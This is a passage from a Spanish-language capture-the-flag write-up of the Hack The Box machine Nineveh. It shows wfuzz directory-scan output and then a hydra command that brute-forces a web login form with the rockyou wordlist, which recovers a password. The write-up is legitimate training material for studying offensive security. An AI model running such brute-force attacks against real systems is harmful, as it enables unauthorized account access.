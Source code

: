 ```bash

000000848:   301        9 L      28 W       309 Ch      "db"                                                            
^C /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...

Total time: 111.4947
Processed Requests: 45914
Filtered Requests: 45913
Requests/sec.: 411.8040
```

Tenemos nuevos recursos, para el 80 `department` al cual si le echamos un ojo, tenemos otro panel de login:

![""](/assets/images/htb-nineveh/nineveh-web3.png)

A este punto, tenemos dos paneles de login, por lo que podriamos tratar de hacer SQLi; sin embargo, los sitios no son vulnerables, por lo que vamos a tratar de hacer fuerza bruta para obtener la contraseña y empezaremos con el puerto recurso `db` y la herramienta `hydra`.

```bash
❯ hydra -l none -P /usr/share/wordlists/rockyou.txt nineveh.htb https-form-post "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password."
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-27 20:55:08
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-forms://nineveh.htb:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password.
[STATUS] 727.00 tries/min, 727 tries in 00:01h, 14343672 to do in 328:50h, 16 active
[443][http-post-form] host: nineveh.htb   login: none   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-11-27 20:57:05
```
